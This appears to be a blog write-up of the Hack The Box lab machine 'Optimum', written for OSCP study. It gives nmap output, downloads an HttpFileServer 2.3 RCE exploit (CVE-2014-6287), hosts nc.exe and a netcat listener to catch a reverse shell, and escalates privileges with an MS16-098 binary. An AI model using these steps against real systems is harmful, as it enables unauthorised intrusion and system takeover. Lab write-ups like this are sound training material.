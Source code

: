 ```yaml
---
layout: post
title: "optimum"
categories: HTB
---
```


```bash
nmap -v -sV 10.10.10.8
Starting Nmap 7.80 ( https://nmap.org ) at 2020-05-04 04:26 EDT
NSE: Loaded 45 scripts for scanning.
Initiating Ping Scan at 04:26
Scanning 10.10.10.8 [4 ports]
Completed Ping Scan at 04:26, 0.26s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 04:26
Completed Parallel DNS resolution of 1 host. at 04:26, 0.01s elapsed
Initiating SYN Stealth Scan at 04:26
Scanning 10.10.10.8 [1000 ports]
Discovered open port 80/tcp on 10.10.10.8
Completed SYN Stealth Scan at 04:27, 16.32s elapsed (1000 total ports)
Initiating Service scan at 04:27
Scanning 1 service on 10.10.10.8
Completed Service scan at 04:27, 6.48s elapsed (1 service on 1 host)
NSE: Script scanning 10.10.10.8.
Initiating NSE at 04:27
Completed NSE at 04:27, 0.99s elapsed
Initiating NSE at 04:27
Completed NSE at 04:27, 0.93s elapsed
Nmap scan report for 10.10.10.8
Host is up (0.23s latency).
Not shown: 999 filtered ports
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


```
Only one port is open. Nmap revale the Http Version.
With that version i found a RCE exploit in:
```
![]https://gist.github.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9
```

Download the exploit:
```bash 
wget https://gist.githubusercontent.com/AfroThundr3007730/834858b381634de8417f301620a2ccf9/raw/783473905951169e49afaf5958e89b23f5a8743f/cve-2014-6287.py

```

Before launcing the exploit i first edited as follows:
```python
    ip_addr = "10.10.14.7:8000" #local IP address
    ip_addr1="10.10.14.7"
    local_port = "443" # Local Port number
```

In another terminal i hosted nc.exe and started python server in the same working directory:
```bash
    python -m SimpleHTTPServer
```
And another terminal listening in port 443:
```bash
nc -lvp 443
```
Finally executing the exploit give a shell:
```bash
python cve-2014-6287.py 10.10.10.8 80
```

#Escalation
We can escalate in two way:
https://gist.github.com/intrd/6dda33f61dca560e6996d01c62203374

And 
https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-098

For quick escalation download bfill from second link, upload to the box and execute like:
```bash
.\bfill.exe 
```
And you are root :).

![GitHub Logo](../optimum/Screenshot.png)


Note: I have quickly, wrote this note as i am preparing for OSCP!

Thanks!

